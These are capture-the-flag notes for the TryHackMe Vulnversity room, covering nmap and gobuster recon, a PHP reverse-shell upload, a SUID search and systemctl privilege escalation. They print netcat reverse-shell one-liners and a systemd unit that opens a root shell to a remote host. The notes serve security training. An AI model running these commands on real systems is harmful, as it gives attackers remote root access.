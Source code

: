 [TryHackMe ~ Vulnversity](https://tryhackme.com/room/vulnversity)

Notes on the beginner challenge, vulnversity. Covers basic recon, web application testing, file inclusion, reverse shells and privilege esculation.  

##### Nmap Recon
Use nmap to scan ports and try to find details about services and versions on those ports 
```bash
nmap -sV -sC <target>
```

##### Finding web routes
Try bruteforce webpages/directories using [gobuster](https://github.com/OJ/gobuster)
```bash
gobuster dir -u <webapp> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

##### Netcat commands
```bash
basic connection:
nc -lvnp 4444 [> /path/to/file.ext]
nc <ip> <port> [< /path/to/file.ext]

reverse shells:
nc -e /bin/bash <ip> <port>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```
##### File inclusion for reverse shell
Upload [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) as `.phtml`, setup a nc listener, load the phtml location.

##### Search for SUID bit
```bash
find / -perm /4000
...
/bin/systemctl
```

##### Privilege esculation
Reverse shell using netcat openbsd from systemctl service.
```bash
[Unit]
Description=root-shell

[Service]
ExecStart=/bin/bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f"

[Install]
WantedBy=multi-user.target
```
```bash
/bin/systemctl enable /path/to/root-shell.service
/bin/systemctl start root-shell
```